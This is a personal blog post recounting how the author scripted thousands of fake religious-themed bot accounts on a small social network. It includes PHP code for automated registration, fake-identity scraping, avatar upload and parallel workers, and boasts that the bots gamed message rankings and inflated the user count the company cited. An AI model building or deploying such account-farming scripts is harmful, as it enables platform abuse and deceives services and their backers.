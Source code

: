```yaml
---
layout: post
title:  "How we helped a social network get funding"
date:   2015-07-29 00:08:02
categories: web hacking
---
```


Yesterday I bumped into an old friend from University in Facebook, [@BobString](https://twitter.com/BobString), and the conversation ended up remembering one of the many **funny stories** [@jacano35](https://twitter.com/jacano35), [@zNk](https://twitter.com/zNk) and I had been involved in **during our college time**, in fact, recently I had the luck to meet some of these guys and we spent the night laughing so hard remembering some of these stories than it may turn into a blog post series, just to immortalize them.  

The main story in this post, as stated in the title, is *how we inadvertently helped a Social Network get funding*,... by sort of hacking it.

When I say *sort of* it's because:

> No cats died during the course of this story, nor the intention was to harm the company in any way, it was just for the lulz

This one begins with me going *WTF?!?!* on a Facebook post of an old friend promoting a *unusual* social network (can't say more as I think it's the only one of it's kind).

> \- Hey [@jacano35](https://twitter.com/jacano35), I have an idea, how about if we troll these guys a little?
> \- Yeah, sure, why not?

On the same friday, after class, and after a couple of beers, we design a **mastah-plan**, we are going to create a botnet within the social network, sounds fun right?

We stumble at the registration form, which at the time looked like this:

![Trolling](http://res.cloudinary.com/alfonsoperez/image/upload/c_scale,w_232/v1438180015/trolling_ru4zcn.png){:.center-image .responsive-image }

> \- Hummm.. *Juan*, dunno what to say, there doesn't seem to be a [captcha](https://www.youtube.com/watch?v=WqnXp6Saa8Y) here, it cannot be that easy, I am sure a captcha will appear at the third registration, or they will ban the IP add..
> \- Dude, shut up and let's code, these guys are noobz

##  First step: Creating our bots
All right, so If we are creating a *botnet*, we need bots, right?. So let's get out **Script-Kiddie's Hat** and now that we talk about this, let's get a decent number of them, but without raising suspicions, as we want to succeed in our trolling. This means that the profiles of our bots need to be somehow convincing. But for now let's quickly sort the registration feature.

#### Registering users
We, don't know yet if these guys use some kind of e-mail activation, which would be nice, but before filling our mail server with junk mail, we are going to see if registering ourselves... and *Voila!*, **no activation mail!**, is it going to be that easy?.

We quickly code a function that sends a POST request with the parameters given:

{% highlight php %}
<?php
// PHP was still cool back in the day
...
$pfields = 'name='.urlencode($nombre).'&username='.urlencode($user).'&email1='.urlencode($email).'&email2='.urlencode($email).'&pass1='.urlencode($pass).'&pass2='.urlencode($pass).'&day='.urlencode($day).'&month='.urlencode($mon).'&year='.urlencode($yea).'&terms=1&fbuid=';

curl_setopt($GLOBALS['ch'], CURLOPT_URL, $url);
curl_setopt ($GLOBALS['ch'], CURLOPT_POST, 1);
curl_setopt ($GLOBALS['ch'], CURLOPT_POSTFIELDS, $pfields);
curl_exec ($GLOBALS['ch']); // registramos
{% endhighlight %}

#### Fake names

We want to create fake identities that are difficult to identify if not by `date added` or maybe IP, checking against TOR exit nodes (more on that later), so we use [fakenamegenerator.com](http://fakenamegenerator.com) for that.

I feel obliged to post **some really crappy code** here due to how hilarious it is.

{% highlight php %}
<?php
// programming in spanish cuz I said so
$fakename = file_get_contents("http://es.fakenamegenerator.com/gen-random-sp-sp.php");
preg_match("/<span class=\"given-name\">(.+?)<\/span>/", $fakename, $buf);
$nombre = $buf[1];
// I take out whatever 'weird' characted LOLOMFG NOOB
$nombre = preg_replace("/[^a-zA-Z]/", "", $nombre);
preg_match("/<span class=\"family-name\">(.+?)<\/span>/", $fakename, $buf);
$apellidos = $buf[1];
$apellidos = preg_replace("/[^a-zA-Z ]/", "", $apellidos);
preg_match("/<li class=\"lab\">Username:<\/li>.+?<li>(.+?)<\/li>/ms", $fakename, $buf);
$user = $buf[1];
preg_match("/<li class=\"lab\">Password:<\/li>.+?<li>(.+?)<\/li>/ms", $fakename, $buf);
$pass = $buf[1];
$dominios = array("hotmail.es","gmail.com","yahoo.com", "yahoo.es", "mail.com", "msn.com", "aol.com", "aol.es", "telefonica.es", "vodafone.es","mixmail.com", "terra.es", "ono.es", "jazztel.es", "atl.com", "repsol.com", "orbitel.com");
$pt = array("", ".", "_");
$email = strtolower($nombre). $pt[rand(0,1)]. substr(str_replace(" ", "", strtolower($apellidos)),0,rand(2,strlen($apellidos))).rand(0,100)."@".$dominios[rand(0,count($dominios)-1)];
$d = (string)rand(1,31);
$m = (string)rand(1,12);
$y = (string)rand(1975,1989);
$gn = array("m","f");
$gender = $gn[rand(0,1)];
$ctr = array("Argentina", "Chile", "Colombia", "Spain", "Panama", "Peru");
$country = $ctr[rand(0,count($ctr)-1)];
$cds = array("Sevilla", "Huelva", "Madrid", "Santander", "Malaga", "Barcelona", "Valencia", "Torreblanca", "Rochelambert", "Montevideo", "Mar de plata", "Cali", "Quito", "Guachapas", "Senorito", "Monte Jesus", "Puerto escondido", "Zicatela", "Guayaquil", "Buenos aires", "Cobadonga", "Trujillo", "Cordoba");
$city = $cds[rand(0,count($cds)-1)];
{% endhighlight %}


So basically if the name has something like an áccent, or an ñ, actually really common in spanish, I strip it, thus inserting "lvaro" instead of "Álvaro", resulting later in **a lot of bots** with weird names, duh. 
Let alone not getting the location from fakenamegenerator but creating my cursom random one out of an array, anyway.

#### Religious Avatars

This is the funniest part. Ok I'll say it!, it turns out that this social network, as every other cool social network has to have an avatar for their users, so let's register avatar for our users.

As this social network in particular is Religion-themed, we want our bots to be religious as well.

{% highlight php %}
<?php
...
   $qr = array("virgen", "cristo", "biblia", "virgen maria", "jesus", "santo", "espiritu santo", "papa cristo");
   $query = $qr[rand(0,count($qr)-1)];

   $offset = rand(0,1000);

   $url = "http://api.bing.net/xml.aspx?AppId=XXXXXXXXXXXXXXXXXXXX&query=".     $query."&sources=image&image.count=1&image.offset=".$offset;

   $ch = curl_init();
   curl_setopt($ch, CURLOPT_URL, $url);
   curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
   $body = curl_exec($ch);
   curl_close($ch);

   preg_match("/<mms:MediaUrl>(.+?)<\/mms:MediaUrl>/", $body, $buf);


if(!isset($buf[1]))
   $res = "http://www.diomedes.com/gua-vestida-virgen.jpg";
   else
   $res = $buf[1];
   
   return $res;


{% endhighlight %}

The avatars turned out to be quite funny, some examples:

![Bot1](http://res.cloudinary.com/alfonsoperez/image/upload/c_scale,w_225/v1438733180/bot1_heeghg.png){:.center-image .responsive-image }
![Bot1](http://res.cloudinary.com/alfonsoperez/image/upload/c_scale,w_327/v1438733345/bot2_vlqt1l.png){:.center-image .responsive-image }


#### Putting it all together

Now that we have some functions, we need to register a big number of users, so if we don't want our IP to be banned or if they log the IP addresses that were used to register the users they could quickly delete our trolls with a simple query, so a workaround would have been to use something like [TOR](https://www.torproject.org/) and send the requests through the SOCKS proxy, but I was really impatient and tired at that point (it was already 3 am or so), so here we go.

{% highlight php %}
<?php
$num = $argv[1];
$pids = array();

function handler($sig)
{
    echo "Destruyendo procesos...\n";
    foreach($pids as $pid)
    {
        $string = $pid." ";
    }
    exec("kill $string");
}

for($i=0;$i<=$num;$i++)
{
    $pid = pcntl_fork();
    if($pid == -1) exit(-1); 
    elseif($pid == 0)
    {
        $pids[] = getmypid();
        exec('php5 doit.php');
        break;
    } else {
        pcntl_signal(SIGINT, "handler");
        while(pcntl_wait($stat) > 0);
    }
}
{% endhighlight %}

having **doit.php** with something like this

{% highlight php %}
<?php
include_once 'functions.php';
// This was the whole joke
$fd = fopen("users".getmypid().".txt", "a");
while(1)
{
    $fake_name = get_fake_name();
    register($fake_name);
    modify($fake_name);

    $url_imagen = imagen();
    $pid = getmypid();
    exec("wget -q -O temp$pid.jpg $url_imagen");
    img("temp$pid.jpg");
    exec("rm temp$pid.jpg");

    fwrite($fd, $email." ".$pass."\n");
}
fclose($fd);
{% endhighlight %}

Hit `php5 processes.php 6` and went to sleep, after getting insulted many times by [@jacano35](https://twitter.com/jacano35) because of the horrid thing above and for not running it through tor. Anyway, I was tired, here you have my IP Address.

Next morning I wake up late, with a little hangover and I suddenly remember what was going on, so I go on and see some huge TXT files full of email addresses and passwords. Ok, it's enough for these guys.


#### Little fun and quick comment

As with almost everything we did for fun, we didn't take it further and we just **upped some messages to the all-time top 2**, did some random followings, some messages, and little more, we could have easily created *havoc*, but then apart from script-kiddies we would be [lamers](https://en.wikipedia.org/wiki/Lamer).

The funny part of the story is that after a while I saw some articles in newspapers talking about the social network, and the owners of it were talking about the *rapid rise* of their userbase and how they had around 100,000K users, I couldn't resist to laugh when I skimmed through my files and realized that I may had almost half of their userbase. 
After that, as I had the first test account registered with my personal e-mail I kept getting eventual e-mails from them through the months, and witnessed how they got to hire some developers, developed and app for android and ios, and given the rapid popularity their userbase started to skyrocket. 

Good for them!